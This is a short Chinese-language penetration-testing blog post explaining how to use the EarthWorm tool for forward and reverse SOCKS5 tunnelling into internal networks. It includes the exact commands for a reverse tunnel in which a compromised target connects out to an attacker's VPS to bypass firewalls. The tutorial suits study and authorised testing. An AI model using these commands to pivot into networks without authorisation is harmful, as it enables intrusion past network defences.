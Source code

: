 ```yaml
---
title: "EarthWorm 内网穿透"
date: 2018-02-18T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['windows','linux']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


EW 是一套便携式的网络穿透工具, 具有 SOCKS v5服务架设和端口转发两大核心功能, 可在复杂网络环境下完成网络穿透.

<!--more-->

一般进入内网有 正向代理 和 反向代理 两种方法

正向代理需要目标主机有公网 IP 反向代理则适用于被防火墙拦截的情况

# 正向代理

## 目标主机

`ew -s ssocksd -l 1080`

在本地架设 socks 5 服务器 监听 1080 端口

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/15/1518687438.jpg)

socks 客户端 Proxifier (windows) proxychains (linux)

连接成功后 显示信息

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/15/1518687428.jpg)

ping 通了目标主机的另外一块网卡

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/15/1518687478.jpg)

# 反向代理

## vps

`ew -s rcsocks -l 1080 -e 8888`

将来自 8888 端口的请求转发至 1080 端口

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/15/1518687674.jpg)

## 目标主机

`ew -s rssocks -d ip -e 8888`

连接指定 ip 并将数据转发至 8888 端口

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/15/1518687679.jpg)

成功后会提示 rssocks cmd_socket ok

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/15/1518687738.jpg)

同样 ping 通网卡

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/15/1518687769.jpg)